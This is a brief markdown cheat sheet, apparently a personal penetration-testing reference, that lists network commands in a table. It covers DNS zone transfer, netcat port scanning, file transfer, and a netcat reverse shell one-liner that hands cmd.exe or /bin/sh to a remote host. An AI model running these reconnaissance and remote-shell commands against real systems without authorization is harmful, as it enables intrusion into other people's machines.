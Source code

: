 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
	<td>ask the name servers for a domain</td>
  </tr>
	<tr>
		<td>host -l <i>domain nameServer</td>
		<td>dns zone transfer</td>
	</tr>
	<tr>
		<td>nc <i>ip port</i> -e <i>shell</td>
		<td>start reverse shell: cmd.exe, /bin/sh</td>
	</tr>
	<tr>
		<td>nc -l -p <i>port</td>
		<td>start listener</td>
	</tr>
	<tr>
		<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
		<td>tcp port scanner</td> 
	</tr>
	  <tr>
		<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
		<td>file transfers</td>
	</tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwNDYzMTc5NSwtMTk2NjU4ODUxNV19
-->